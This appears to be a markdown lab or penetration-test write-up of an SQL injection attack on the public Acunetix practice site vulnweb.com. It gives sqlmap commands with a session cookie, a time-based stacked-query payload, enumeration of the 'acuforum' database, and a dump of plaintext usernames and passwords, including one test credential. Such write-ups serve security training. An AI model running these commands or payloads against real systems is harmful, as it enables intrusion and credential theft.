




# Detailed Technical Findings & Exfiltration Logs

## 📊 Infrastructure Profile
*   **Web Server Platform:** Microsoft IIS version 8.5
*   **Application Environment:** Classic ASP (.NET integrated pipeline)
*   **Backend Database Engine:** Microsoft SQL Server 2014
*   **Host Operating System:** Windows 8.1 / Server 2012 R2

---

## 💻 Technical Phase Execution

### Phase 1: Injection Vector Identification
Initial tracking confirmed a `Stacked Queries` vulnerability structure within the POST authentication parameter.

```bash
sqlmap -u "http://vulnweb.com" \
--data="tfUName=test&tfUPass=test" \
--cookie="ASPSESSIONIDCSADBTCC=OODJCFNAENIKFJBNMPLOGJKN" \
-p tfUName --level=3 --risk=2 --batch --flush-session
```
*Validated Attack Payload:* `tfUName=test%';WAITFOR DELAY '0:0:5'--&tfUPass=test`

---

### Phase 2: Database Catalog Mapping
The underlying system catalog database properties were extracted:
*   **Total Databases Discovered:** 6
*   **System Catalogs:** `master`, `model`, `msdb`, `tempdb`
*   **Application Catalogs:** `acuforum`, `acuservice`



---

### Phase 3: Schema Extraction (`acuforum`)
The target scope was isolated to the `acuforum` catalog to identify structural user storage assets. 

**Extracted Tables:**
*   `dbo.forums`
*   `dbo.posts`
*   `dbo.threads`
*   `dbo.users` (High-Value Asset)



**Extracted Columns from `dbo.users` Table:**
The configuration schema exposed 5 distinct data columns:
*   `avatar` (nvarchar)
*   `email` (nvarchar)
*   `realname` (nvarchar)
*   `uname` (nvarchar)
*   `upass` (nvarchar)



---

### Phase 4: Targeted Data Exfiltration
Using advanced database dump structures, active storage data was successfully exfiltrated from the critical credential columns (`uname`, `upass`):

```bash
sqlmap -u "http://vulnweb.com" \
--data="tfUName=test&tfUPass=test" \
--cookie="ASPSESSIONIDCSADBTCC=OODJCFNAENIKFJBNMPLOGJKN" \
-p tfUName -D acuforum -T users -C "uname,upass" --hex --dump --batch
```

**Exfiltration Metrics Summary:**
*   **Total Compromised Records:** 113 historical accounts recovered.
*   **Data Vulnerability State:** The application stores accounts in plaintext without cryptographic hashing or salting. Predictable administrative test credentials were explicitly exposed (e.g., Username: `netsparker`, Password: `g00dPa$$w0rD`).


